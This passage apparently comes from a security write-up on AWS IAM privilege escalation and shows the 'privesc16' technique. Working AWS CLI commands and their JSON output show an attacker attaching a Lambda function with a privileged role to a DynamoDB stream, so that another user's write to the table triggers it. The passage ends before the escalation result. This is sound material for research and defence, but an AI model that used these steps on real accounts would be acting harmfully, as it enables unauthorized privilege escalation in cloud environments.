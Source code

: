 ```json
{
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "CodeSha256": "ZP3U8CIrgroYQtPVj6OC5vKOq2+4ltt/LtyWZTgnlUo=",
    "FunctionName": "privesc16",
    "CodeSize": 322,
    "RevisionId": "458c5bf7-1920-47a3-a5ad-2ec5a84e64b5",
    "MemorySize": 128,
    "FunctionArn": "arn:aws:lambda:us-west-2:[REDACTED]:function:privesc16",
    "Version": "$LATEST",
    "Role": "arn:aws:iam::[REDACTED]:role/privesc16lambda",
    "Timeout": 3,
    "LastModified": "2019-09-06T17:27:17.721+0000",
    "Handler": "code.lambda_handler",
    "Runtime": "python3.6",
    "Description": ""
}
```

The function to escalate privileges now exists, but the attacker does not have permissions to invoke it directly. Instead, the attacker links it to an existing DynamoDB table:

```bash
➜ aws lambda create-event-source-mapping --function-name privesc16 --event-source-arn arn:aws:dynamodb:us-west-2:[REDACTED]:table/privesc16/stream/2019-09-06T17:22:31.019 --enabled --starting-position LATEST --region us-west-2 --profile privesc
```

```json
{
    "UUID": "ca8ecd70-d87d-48a9-88e1-e0e673d23931",
    "StateTransitionReason": "User action",
    "LastModified": 1567790875.465,
    "BatchSize": 100,
    "EventSourceArn": "arn:aws:dynamodb:us-west-2:[REDACTED]:table/privesc16/stream/2019-09-06T17:22:31.019",
    "FunctionArn": "arn:aws:lambda:us-west-2:[REDACTED]:function:privesc16",
    "State": "Creating",
    "LastProcessingResult": "No records processed"
}
```

Since the attacker does not have any DynamoDB permissions, it is not possible to upload a new row and trigger the exploit. Instead, the attacker needs to wait for another user or a service to update the table instead. The command below shows another AWS user uploading a row to the table. Note the lack of profile privesc, indicating that this command uses different AWS API keys:

```bash
➜ aws dynamodb put-item --table-name privesc16 --item '{"test":{"S":"whatever"}}' --region us-west-2
```

The action on the DynamoDB table caused the linked Lambda function to execute, thereby escalating the attacker's permissions:
